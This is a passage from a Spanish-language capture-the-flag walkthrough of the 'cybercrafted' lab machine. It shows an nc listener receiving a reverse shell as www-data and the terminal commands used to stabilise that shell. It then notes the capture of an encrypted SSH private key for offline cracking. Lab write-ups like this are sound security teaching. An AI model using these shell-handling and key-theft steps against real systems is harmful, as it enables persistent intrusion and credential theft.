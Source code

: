         script /dev/null -c bash
        ctrl + z
        stty raw -echo && fg
        reset xterm
        export SHELL=bash
        export TERM=xterm
        stty rows 34 columns 169 # Haga stty -a desde su terminal para ver la cantidad de columnas y filas

```java
# nc -nlvp 444
listening on [any] 444 ...
connect to [10.17.21.18] from (UNKNOWN) [10.10.87.41] 59174
bash: cannot set terminal process group (1054): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cybercrafted:/var/www/admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@cybercrafted:/var/www/admin$ ^Z
zsh: suspended  nc -nlvp 444
# stty raw -echo && fg
[1]  + continued  nc -nlvp 444
                              reset xterm

```

* Empezamos a enumerar usuarios y ver el directorio ssh

<img src="imgs/Cyber-craft/Cyber-craft12.png">

* Capturamos la id_rsa encriptada y la pasamos a nuestro entorno de trabajo, para desencriptarla.
